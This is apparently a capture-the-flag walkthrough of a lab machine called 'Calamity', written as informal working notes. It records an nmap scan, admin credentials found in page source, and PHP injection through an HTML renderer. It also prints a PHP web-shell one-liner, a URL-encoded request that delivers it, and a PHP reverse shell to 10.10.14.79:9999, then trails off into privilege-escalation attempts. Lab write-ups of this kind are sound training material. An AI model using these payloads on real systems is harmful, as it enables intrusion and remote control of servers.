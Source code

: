 # Calamity

Start off with NMAP aggresive scans
```
nmap -T4 -sV -F 10.10.10.27 -oN InitialScan.txt
```


Scan show HTTP and SSH. SSH is up to date so no exploits

Static Website, No network sources
No metasploit module for the apache version
Dirbuster found admin.php

Found creds in the source html. Guessed password `admin`

Log in with `admin:skoupidotenekes`

You can upload HTML to the site as a renderer. Put PHP in the html code and it
runs.

First I submitted this:
```
The date is <?php echo date('l, F jS, Y'); ?>.
```

The webpage showed the results.

Now I try to find an easy php shell. Quick  oneliner on google
```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo
"</pre>"; die; }?>
```

Send the following URL for a quick shell
```
http://10.10.10.27/admin.php?html=%3C%3Fphp+if(isset(%24_REQUEST[%27cmd%27])){+echo+%22%3Cpre%3E%22%3B+%24cmd+%3D+(%24_REQUEST[%27cmd%27])%3B+system(%24cmd)%3B+echo+%22%3C%2Fpre%3E%22%3B+die%3B+}%3F%3E&cmd=echo%20hi
```

Lets make it interactive.

URL encode this php reverse shell to get an interactive prompt:
```
php -r '$s=fsockopen("10.10.14.79",9999);popen("/bin/sh -i <&3 >&3 2>&3", "r");' &
```

Server is listening on port 25 locally. Seems to be postfix. Postfix is pretty secure unless
misconfigured.

User xalvas exists. Homedir contains interesting things.

`Owned user xalvas`

Tried cd'ing into `/tmp/xalvas` based on hint in dontforget.txt

Mentions program running called peda

Trying to download the wave but the pipe keeps breaking

Things ive tried:
- World writable files (none?)
- Guess dir name in tmp (/tmp/xalvas, etc.)
- Postfix execute scripts, No way to tell as there are no logs
- Didnt find an SUIDfind / -perm -g=s -type f 2>/dev/null

Reddit say Binary BUF using wav files..... Come back to this maybe?
